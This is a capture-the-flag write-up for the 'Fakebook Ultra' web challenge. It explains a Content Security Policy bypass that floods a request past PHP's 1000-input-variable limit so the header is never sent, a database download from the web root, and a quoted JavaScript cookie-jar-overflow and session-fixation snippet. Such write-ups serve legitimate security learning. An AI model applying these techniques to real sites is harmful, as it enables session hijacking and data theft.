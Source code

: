 # Fakebook Ultrta Solution

The code of this challenge is almost the same as [Fakebook Pro](../fakebook-pro), except for the addition of the Content Security Policy:
```php
// init.php:18
header("Content-Security-Policy: default-src 'none'; style-src 'self' 'unsafe-inline';");
```

If we send over 1000 Input variables like this: `f'{URL}/posts.php?username={urllib.parse.quote(username)}{'&a'*1000}'`, the subsequent headers, including the CSP header, will not be sent, allowing us to bypass the CSP.
```html
<br />
<b>Warning</b>:  PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in <b>Unknown</b> on line <b>0</b><br />
<br />
<b>Warning</b>:  ini_set(): Session ini settings cannot be changed after headers have already been sent in <b>/var/www/html/init.php</b> on line <b>4</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>12</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>13</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>15</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/init.php</b> on line <b>18</b><br />
<br />
<b>Warning</b>:  session_start(): Session cannot be started after headers have already been sent in <b>/var/www/html/init.php</b> on line <b>38</b><br />
```

Like the bot in [Fakebook Pro](../fakebook-pro), it does not have an Internet connection. We also do not have logout.php at this time.

Please note that the website stores its database in the web root, which allows us to directly download the database by sending a GET request to /users.db. 

Consequently, we can save the flag to the admin's post and later retrieve the flag from the database. (Refer to [solve.py](./solve.py) for details.)

There are two unexpected ways of retrieving data.
The first one is from Valiss:
https://discord.com/channels/1165255533490610249/1319285207202795550/1329495905325551708

> i did cookie jar overflow -> session fixation
```javascript
function cookieclear(){
     // Set many cookies
    for (let i = 0; i < 5000; i++) {
      document.cookie = `cookie${i}=${i};`
    }

    // Remove all cookies
    for (let i = 0; i < 5000; i++) {
      document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
    }

    document.cookie = 'PHPSESSID=28f2059fa431018dbcbdb33939a18199'
    document.cookie = 'STAYINURLANE=true'
    return document.cookie
}
```

The second one is from maple. He used the bug in report.php and the fact that `cms` is not the same origin as `cms.`, to solve the logout problem.
https://blog.maple3142.net/2025/01/16/tscctf-2025-writeups/#fakebook-ultra

